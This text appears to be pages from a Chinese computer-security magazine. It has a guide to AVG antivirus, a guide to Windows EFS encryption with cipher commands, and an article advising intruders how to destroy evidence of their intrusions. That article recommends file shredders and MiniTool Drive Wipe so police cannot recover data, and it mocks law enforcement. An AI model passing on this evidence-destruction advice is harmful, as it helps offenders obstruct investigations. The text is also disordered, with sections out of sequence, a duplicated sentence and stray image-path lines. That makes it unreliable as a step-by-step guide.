





如果要进行病毒扫描，首先需要单击窗口左侧的“计算机扫描器”，这时可以在窗口中选择扫描整个计算机或特定目录（如图6）。根据自己的需要点击扫描选项，这样AVG就开始对操作系统进行扫描。在软件进行扫描的时候，我发现软件除了对内存进行扫描以外，还会对注册表信息进行扫描，最后才是对磁盘文件进行扫描操作（如图7）。无论是发现病毒文件还是注册表被篡改，AVG都可以对病毒文件进行删除并对注册表进行修复。由于AVG是一款免费的软件，所以有的时候会弹出一些广告信息，点击窗口左下方的“隐藏通知”按钮就可以进行隐藏。

### 二、软件的基本操作

现在我们就可以看到AVG的操作界面了，总的来说AVG的操作界面非常简洁实用。从这里我们也看到AVG软件的与众不同，因为其他的杀毒软件都是通过鼠标右键来开启或关闭某些实时监控项目，现在则需要在软件的操作界面里进行选择。AVG实时监控的项目包括病毒防范、恶意软件防范、电子邮件防范等（如图4）。当在某个组件上单击右键，在弹出的菜单命令中就可以打开一个窗口，这样就可以详细查看到该组件的具体信息。一旦实时监控发现有病毒文件，就会弹出一个提示窗口来提醒用户（如图5）。

不过要想更好地进行系统防御，还是需要进行一些自定义设置。点击“工具”菜单中的“高级设置”命令，在左侧列表中选择“扫描整个计算机”选项。我们可以看到AVG默认只对特定的文件进行扫描，但是我还是觉得最好选择“所有文件类型”这个选项。另外，AVG软件是自带有移动设备防御功能的，但是软件默认并没有开启这个防御功能。所以现在需要点击窗口左侧的“可移动设备扫描”，然后在右侧窗口里面选择“启用可移动设备扫描”选项就可以了（如图8）。









### 三、网页防范的操作

还记得前面安装了一个浏览器插件吗？现在马上运行系统中的IE浏览器，我们就可以看到AVG Security Toolbar安装成功的提示。从现在起一旦发现漏洞利用、被黑站点、网络钓鱼等威胁，就会通过弹出提示窗口来告知用户注意。另外这个浏览器插件还可以对搜索引擎的结果进行验证，其中包括常见的百度、雅虎以及国外的一些搜索引擎（如图9），并通过不同的颜色来告诉用户链接的安全性，比如绿色代表安全、红色代表危险、黄色代表可疑。

而通过AVG的浏览器插件，在收藏栏就收录了大量最新的安全信息，用户只需要点击“AVG信息”就可以了解到。如果要进行其他设置操作，可以点击“AVG”图标在菜单中选择“选项”，然后在弹出的窗口里面进行某个选项的设置。浏览器插件上面除了AVG自身的功能外，还可以让用户自定义添加一些功能按钮。现在点击窗口中的“有用的按钮”选项，可以选择计算器、记事本、媒体播放器等等（如图10）。

OK，对AVG功能的介绍就到这里。大家要是有兴趣，赶紧去试试吧。

## EFS让安全无懈可击

自从“艳照门”事件之后，人们的数据安全意识有了很大的提高，开始尝试一些所谓的文件加密软件，但那些软件的安全性并不是很高，很容易就被破解了。那有没有一个好的文件加密软件呢？答案是肯定的，EFS就是一个不错的选择。

## 安全第一

EFS的全称是Encrypting File System，翻译过来就是加密文件系统。这是系统内置的功能，可以将存放在NTFS格式磁盘中的文件，通过操作系统加密保存，在一定程度上保证了数据的安全性。

我们来换一个用户打开看看，就会看到如图2所示的提示。



“那我们想让一个特定的用户也可以访问，要怎么做呢？”又一个小菜说。很简单，回到“高级属性”窗口，点击名为“详细信息”的按钮，在弹出的窗口中再点击名为“添加（A）”的按钮，在出现窗口的上面会显示已有证书的用户。在出现的窗口上选择我们要共享的用户，再点击“添加”按钮，最后点“确定”即可，如图3。没有取得证书的用户是无法和我们一起访问加密过文件的，要使特定用户取得证书，可以用该用户加密一个文件即可。

### 一、使用EFS之前的准备

因为EFS只能给NTFS格式磁盘中存放的文件进行加密，由此我们需要将非NTFS格式的磁盘进行转换。其实很简单，只需要在命令提示符中输入“convert X:/fs:NTFS”就可以了（其中的“X”换成我们要转换的盘符）。可能有的小菜会担心自己的数据会丢失，大可不必担心，这个是无损转换，不会丢失任何数据。

### 二、EFS的原理

当我们使用EFS时，系统会分配给我们一个证书，包括两把密钥，一把是公钥，另一个是私有密钥。当我们要加密某个文件时，系统会随机产生一个密钥，然后用这个密钥进行对称加密文件。接着系统会再用之前分配给我们的公钥将随机生成的密钥进行加密，然后储存在文件头。当我们要打开EFS加密过的文件时，系统用分配给我们的私有密钥对文件头进行解密，就可以得到系统加密该文件时的随机密钥，再用得到的密钥来解密。


### 三、EFS的使用

好了，听了这么多理论，我们该动手了。在我们要加密的文件上点击右键，选择“属性”。在弹出的窗口上切换到“常规”选项卡，在右下角我们可以找到名为“高级（D）...”的按钮。点击这个按钮，会弹出“高级属性”窗口，勾选上“加密内容以保护数据（E）”，如图1。点击两次“确定”，眼尖的文子就会发现刚才加密的文件变成绿色的啦。


“这个文件还不是可以正常打开吗？哪里加密了？”一小菜说道。EFS并不是那种打开时需要密码的那种。

### 四、备份与恢复

有时候，电脑总会出现点问题，例如系统崩溃了或配置丢失，那我们用EFS加密过的文件都会打不开。所以我们应该在启用EFS加密时就做好证书的备份，在出现意外时以便恢复。

打开控制台（在运行中输入“mmc”），依次展开菜单“文件”→“添加/删除管理单元”，点击“添加”按钮，在弹出的窗口中找到“证书”并添加，如图4。如果我们正在用的用户是管理员的话，会弹出一个窗口询问我们管理单元为哪个账户管理证书，如图5。我们选择“我的用户账户”。然后在左侧的控制台树中，依次展开“证书-当前用户”→“个人”→“证书”，再在右侧选择自己的证书并点击右键，选择“所有任务”→“导出”，如图6。

窗口一路NEXT就行了，不过在询问是否导出私钥时，要选择导出密钥。

当我们输入正确的密码后，会生成两个文件，一个是PFX文件，一个是CER文件。







导出的密钥一定要保存好，有条件的可以弄个U盘，把密钥放在U盘里，再把U盘上个十几把锁。呵呵，开个玩笑，总之要保存好就是了。

打开PFX文件，一直NEXT就可以导入了，不过在选择证书存储区的时候，我们需要选择“所有的证书放入下列存储区”单选项，再将存储区设置为“个人”。CER文件也差不多，不过就是打开后，再按下“安装证书”就是了。

### 五、EFS的命令行用法

前面提到EFS命令行用法，其实很简单，下表就是EFS操作的常用命令。想看更详细的命令的话，在命令行中执行“cipher /?”就可以看到了（如图9）。


当我们需要恢复的时候，需要先将证书分解。这时候需要用上我写的一个小工具——EFS操作工具（也可以在命令行完成，命令在后面会说，这个工具和其源代码都收录在光盘里）。打开工具，如图7，把文件拖到“分解证书”标签右边的编辑框里，会出现一个窗口要我们输入密码，这里的密码就是我们导出密钥时设置的密码，如图8。当我们输入正确的密码后，会生成两个文件，一个是PFX文件，一个是CER文件。

| 分类 | 命令 | 说明 |
|---|---|---|
| 加密 | `cipher /a /e 路径` | 加密文件 |
| 加密 | `cipher /a /e /s:路径` | 加密文件夹 |
| 解密 | `cipher /a /d 路径` | 解密文件 |
| 解密 | `cipher /a /d /s:路径` | 解密文件夹 |
| 分解证书 | `cipher /r:路径` | 分解证书 |

图9

> （本文所涉及的相关附件光盘已收录）

## 入侵证据？这个要没得！

牛晓东

曾记得在2003年左右的入侵文章中比较流行3389端口登录，而且大多数的作者都不忘在文章中提到“擦PP”、“擦脚印”——清除肉鸡上的登录日志，防止被JC叔叔请去喝免费茶。但近几年的入侵文章似乎对这项“扫尾”工作淡了许多，或许是都不屑于谈了，或许是大家都艺高人胆大了，不过建议大家还是小心一些的好，没看到过新闻的报道画面上“作案”机器被封作入侵证据么？在此我到底想说什么呢？那就是把自己的“阵地”务必要把守好，如果真有那么一天要到来的话，只要有几分钟的时间你就可以将“罪证”毁于一旦！

明白意思了吗？就是把自己机器上的相关文件甚至是整个分区都清除得干干净净，将一切的一切都化为“000”或是“111”二进制。说到这儿肯定有人会马上想到很多安全工具中所提供的“粉碎文件”功能，比如360安全卫士中的“功能大全”组件中有个“文件粉碎机”，只要先点击“添加文件”按钮选中待粉碎的文件，然后点击“粉碎文件”按钮（甚至还可以提前选中“阻止被粉碎文件再次生成”选项）并进行一次确认就能将文件粉碎（如图1）。虽然这是360用来对付木马、病毒文件的“狠招儿”，但对于我们“销毁罪证”也同样有效。

不过，如果你“罪恶滔天”以至于那些“罪证”都得用牛车来拉的话，那就别一个文件一个文件地添加再粉碎了，要……什么，全盘格式化？有些道理，不过不知你有没有听说过Norton Utility的反格式化或是Easy Recovery数据恢复软件？甚至大部分专业的数据恢复公司内部都有自己的独门绝技，可不要将宝押在格式化上！在此向大家推荐一个专业的免费磁盘擦除软件，名字叫“MiniTool Drive Wipe”。

运行“minitool-drivewipe.exe”进行程序的安装，过程是很简单的，直接“Next”、设置路径和“I accept the agreement”、“Install”即可。之后，运行MiniTool Drive Wipe，主界面上有两个选择：“Wipe Partition”和“Wipe Disk”（如图2），前者意思是“擦除分区”，后者意思是“擦除磁盘”。

以“Wipe Partition”为例，点击后会罗列出本地计算机硬盘的所有分区图，我们只须先选中待擦除的分区后再点击下方的“Next”按钮，MiniTool Drive Wipe会弹出警告（Warning）提示框：“All the data on the partition will be destroyed. Are you sure that you want to continue?”（如图3），意思是“这个分区上的所有数据都将被毁掉，你确实要继续吗？”。如果真的确认的话（一定要想好啊，这个可真的是没地儿吃后悔药！），点击“Yes”按钮之后，MiniTool Drive Wipe会再次提示我们：“Wiping drive will remove every sectors of data on the disk. Data once wiped can not be recovered by any data recovery solutions.”（“擦除分区操作将消除该磁盘分区上的每一扇区的数据，数据一旦被擦除就不能被任何数据恢复解决方法所恢复。”）。

下面则是列举出的五种数据销毁方式可供选择，分别是“Fill Sectors with Zero(Quick)”、“Fill Sectors with One(Quick)”、“Fill Sectors with Zero & One(Slow)”、“DoD 5220.22-M(3 passes)(Very Slow)”和“DoD 5220.28-STD(7 passes)(Very Slow)”（如图4），汉语意思分别是“用0填充扇区（快）”、“用1填充扇区（快）”、“用0和1填充扇区（慢）”、“用符合美国国防部DoD 5220.22-M标准（3次擦除）（很慢）”和“用符合美国国防部DoD 5220.28-STD标准（7次擦除）（很慢）”。

此时就看你自己的了，如果时间很充裕的话你可以选择后三种之一（效果应该更安全），如果想提高速度的话就选择前两种之一（估计对付国内的JC叔叔应该也没什么问题）。在此就以默认的第一种“Fill Sectors with Zero(Quick)”为例，点击下方的“Finish”按钮进行一个容量为1GB的U盘数据擦除实验。晕，MiniTool Drive Wipe竟然再一次警告我们：“现在就开始擦除？”，真是够小心的，呵呵。点击“Yes”按钮之后，终于开始了（如图5）。

大约五六分钟之后，MiniTool Drive Wipe提示我们“Wipe drive successfully.”——擦除成功！点击“OK”按钮之后返回MiniTool Drive Wipe，然后关闭它，最后再检验一下擦除效果，真的没有了，你懂的。当然，如果你还是不放心的话，现在可以对这个分区进行若干次的格式化操作了，估计这样做的话就是神仙来了也找不到任何蛛丝马迹了。

> （本文所涉及的“minitool-drivewipe软件”已收录本期光盘中）

